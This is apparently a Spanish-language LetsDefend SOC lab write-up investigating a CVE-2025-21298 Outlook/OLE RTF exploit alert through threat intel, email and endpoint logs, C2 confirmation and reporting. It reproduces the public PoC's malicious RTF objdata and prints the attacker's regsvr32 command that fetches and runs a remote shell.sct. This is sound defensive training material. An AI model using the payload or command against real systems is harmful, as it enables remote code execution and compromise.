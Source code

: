 ```yaml
---
title: Let’s Defend SOC336
image: /assets/img/Anexos/Pasted%20image%2020250407101344-1.png
description: Let’s Defend: SOC336 — Windows OLE Zero-Click RCE Exploitation Detected (CVE-2025–21298)
categories: [Blue Team,LetsDefend]
tags: [soc]
---
```




## Introduction
Estamos dentro de un SOC y nos llega una alerta de un incidente de nivel **crítico** y tenemos que actuar.

### Description

- Name: SOC336
- Goal: Investigar el incidente
- link: [LetsDefend](https://app.letsdefend.io)

![](/assets/img/Anexos/Pasted%20image%2020250407101344-1.png)



### PDF Link
- PDF: [PDF Link](https://github.com/juanbelin/Writeups-CTFs-Challenges/blob/main/LetsDefend/LetsDefend%20SOC336.pdf)



## Incidente


Una vez recibida la alerta en el SOC creamos un nuevo saco para esta alerta:

![](/assets/img/Anexos/Pasted%20image%2020250407090151-1.png)

### Contexto 
1. Se ha detectado -> Windows OLE Zero-Click RCE Exploitation Detection (CVE-2025–21298)
2. Se trata de un correo electrónico por Outlook.
3. Contiene un adjunto (mail.rtf)
4. La razón desencadenante (malicious RTF attachment identified with known CVE-2025–21298 exploit pattern)


La extensión RTF se refiere al ==formato de archivo Rich Text Format (Formato de Texto Enriquecido)==. Se trata de un formato de archivo que permite abrir y editar textos en varios programas de procesamiento de texto.

CVE-2025-21298 es una **vulnerabilidad de zero-click** in Windows OLE donde el atacante envia un correo malicioso con un adjunto _.rft_. Cuando la víctima abre o visualiza el correo, el atacante puede ejecutar código arbitrario dentro del sistema gracias al _.rft_. 

**Prueba de concepto**

> https://github.com/ynwarcs/CVE-2025-21298

```
{\rtf1{\object\objhtml\objw1\objh1\objupdate\rsltpict{\*\objclass None}{\*\objdata 0105000002000000
0a000000
53746174696344696200
00000000
00000000
04000000
00000000
00000000
05000000
02000000
aa00
02000000
00000000
}
}}

```


**Información Importante para la investigación**

- Usuarios involucrados
- Hashes
- Direcciones IP
- Hostnames
- Ficheros
- Acciones tomadas


### Investigación

Primero acudo a webs de inteligencia para comprobar si el hash es malicioso. Inmediatamente **Virus Total** lo detecta como malicioso y detecta el CVE:

![](/assets/img/Anexos/Pasted%20image%2020250407090747-1.png)

También lo compruebo en el apartado de **Threat Intel** del SOC:

![](/assets/img/Anexos/Pasted%20image%2020250407090934-1.png)


Una vez confirmado que el adjunto es un exploit, hay que entender que ha pasado. Como la entrada del exploit fue via SMTP, voy directo a **Email Security** y comienzo a filtrar:

![](/assets/img/Anexos/Pasted%20image%2020250407091142-1.png)

Tras el filtrado, se reporta el mail que originó el ataque, fue enviado por _projectmanagement@pm.me_ a el usuario _Austin@letsdefend.io_.

![](/assets/img/Anexos/Pasted%20image%2020250407091220-1.png)

El correo es el siguiente:

![](/assets/img/Anexos/Pasted%20image%2020250407091301-1.png)

Este correo se hace pasar por el jefe de proyecto del equipo y contiene un título y cuerpo que generan urgencia.

Sabiendo esto, Vamos al apartado **Endpoint Security** y filtramos por Austin para buscar actividades sospechosas y encontramos el desencadenante:

![](/assets/img/Anexos/Pasted%20image%2020250407091442-1.png)

Se ejecuta `OUTLOOK` para visualizar el correo,  y segundos después `cmd` y `regsvr32`.

![](/assets/img/Anexos/Pasted%20image%2020250407103438-1.png)


![](/assets/img/Anexos/Pasted%20image%2020250407091553-1.png)



```powershell
regsvr32.exe /s /u /i:http://84.38.130.118.com/shell.sct scrobj.dll

# regsvr32.exe es una herramienta de línea de comandos que permite registrar y desregistrar controles OLE, como DLL y ActiveX, en el Registro de Windows

```

![](/assets/img/Anexos/Pasted%20image%2020250407091829-1.png)


OUTLOOK.EXE -> cmd.exe -> regsvr32.exe

Ahora podemos confirmar que se ha producido una ejecución de comandos explotando una vulnerabilidad en **Outlook**.  Ahora para obtener más información del servidor C2 (Command al Control) al que se ha hecho la solicitud mirando los logs y confirmar que se ha producido una conexión al C":


![](/assets/img/Anexos/Pasted%20image%2020250407092123-1.png)

Vemos que efectivamente se produjo una solicitud. Ahora el siguiente paso será ponerlo en cuarentena:


![](/assets/img/Anexos/Pasted%20image%2020250407092208-1.png)

Después de la Investigación toca reportar el incidente.

### Reporte

![](/assets/img/Anexos/Pasted%20image%2020250407092346-1.png)

En indicador ponemos "**otro**".

![](/assets/img/Anexos/Pasted%20image%2020250407092407-1.png)

En este apartado indicamos que el malware no fue eliminado ni puesto en curentena en ningún momento por el EDR:

![](/assets/img/Anexos/Pasted%20image%2020250407092446-1.png)

En el apartado análisis de malware indicamos que es malicioso ya que lo comprobamos anteriormente:

![](/assets/img/Anexos/Pasted%20image%2020250407092505-1.png)

Aquí confirmamos que hubo una petición a un C2 y se estableció la conexión:

![](/assets/img/Anexos/Pasted%20image%2020250407092529-1.png)

En los adjuntos podríamos añadir lo siguiente:

![](/assets/img/Anexos/Pasted%20image%2020250407092914-1.png)

Por último, en la nota final se podría añadir algo como:

![](/assets/img/Anexos/Pasted%20image%2020250407093225-1.png)